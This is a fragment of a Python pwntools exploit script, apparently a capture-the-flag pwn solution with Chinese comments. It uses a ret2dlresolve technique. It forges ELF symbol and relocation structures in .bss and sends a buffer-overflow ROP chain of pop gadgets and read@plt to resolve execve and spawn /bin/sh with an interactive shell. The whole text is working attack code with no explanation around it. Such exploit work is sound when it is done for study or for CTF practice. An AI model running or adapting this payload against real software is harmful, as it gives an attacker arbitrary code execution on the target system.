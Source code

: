 ```python
    payload += p64(target_addr + 0x8)                           # 指向伪造的Elf64_Sym
    payload = payload.ljust(0xF8, b'\x00')
    payload += p64(target_addr + 0x8 * 3)                       # 指向伪造的Elf64_Rel
    
    # call
    call = p64(dl) + p64(target_addr) + p64(0)
    return payload, call

bss_addr = elf.bss() + 0x100
payload, call = ret2dlreslove(elf, libc, 'execve', bss_addr)
payload = payload.ljust(0x200, b'\x00') + b'/bin/sh\x00'
p.send((b'a' * 12 + p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(bss_addr) + p64(pop_rdx) + p64(len(payload)) + p64(elf.plt['read']) + p64(pop_rdi) + p64(bss_addr + 0x200) + p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0) + call).ljust(0x200, b'\x00'))
p.send(payload)


p.interactive()
```
